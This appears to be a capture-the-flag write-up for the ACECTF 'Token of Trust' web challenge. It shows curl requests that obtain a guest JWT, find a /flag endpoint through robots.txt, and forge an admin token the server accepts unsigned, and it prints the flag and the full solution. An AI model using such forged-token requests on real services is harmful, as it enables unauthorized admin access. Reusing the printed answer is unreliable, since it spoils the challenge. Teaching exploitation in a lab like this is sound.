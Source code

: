 # Token of Trust

## Background

At first, this web app seems straightforward, but there’s something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system’s trust can be manipulated.<br>

The secret is hidden within the way this token is used. Can you find the key to unlock what’s been concealed? The challenge is waiting for you to crack it.<br>

Submit your answer in the following format: ACECTF{3x4mpl3_fl4g}<br>

[http://34.131.133.224:9999/]()

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-14.jpg)

- **Difficulty: Easy**
- **This challenge doesn't have source code**

## Enumeration

Index page:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-15.jpg)

The index page tells us that if we want to log in, we have to visit `/login` endpoint:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-16.jpg)

The page says that we have to send a POST request with JSON payload like: `{"user":"ace","pass":"ctf"}` and it's doesn't care about our credentials. So I will use `curl` to test this endpoint:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"user":"ace","pass":"ctf"}' http://34.131.133.224:9999/login
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```
> Remember to set the Content-Type header to application/json if you want to send request with JSON data!

It will response to us with a **token**. This **token** has the `JWT` format, I will use [jwt.io](https://jwt.io/) to see the content of this `JWT`:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-17.jpg)

This `JWT`'s algorithm is `HS256` and with this `JWT`, we are currently a `guest` user. But the problem here is, what do we do with this **token**, because we don't know any endpoint to send this **token** to. If we try to send POST request to the endpoint `/login` with this **token**, it will return:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}' http://34.131.133.224:9999/login
Invalid POST data. Did you forget the magic JSON format?
```

And if we POST the **token** with `user` and `pass`, it will return the token again:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"user":"ace","pass":"ctf","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}' http://34.131.133.224:9999/login
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```

I have checked through the source page, but nothing special. So I decides to check if this page has the `robots.txt` file:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-18.jpg)

And yes! This page has the `robots.txt` file and it's telling us this page has the endpoint `/flag`. I will send POST request to this endpoint to see how it responses:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST http://34.131.133.224:9999/flag
No token? No flag! Bring me a token, and we'll talk. 👀 
```

So we need to POST to it a **token**. We don't know the format of the data to send to this endpoint, so we will try with the JSON data:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}' http://34.131.133.224:9999/flag       
Sorry, you're not the admin. No flag for you! 😝
```

## Exploitation

It says that we are not the admin. So we need to change the value of the `user` key of the `JWT` from `guest` to `admin`. There's a problem that if we want to change any value of the `JWT`, we will need to know the secret key, otherwise we can't have a valid `JWT` because of the `signature` part. But we will try to change the value without the secret key, maybe the server won't check the **signature verfication**:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-19.jpg)

Send this new `JWT` to the `/flag` endpoint:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.lo6cc_YVMrNFnffGek_avzLJ_mgkuvBsSz52NO3_6Kk"}' http://34.131.133.224:9999/flag
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
```

Luckily, we got the flag!

- **Flag: `ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}`**

## Conclusion

What we've learned:

1. JWT authentication bypass via payload header injection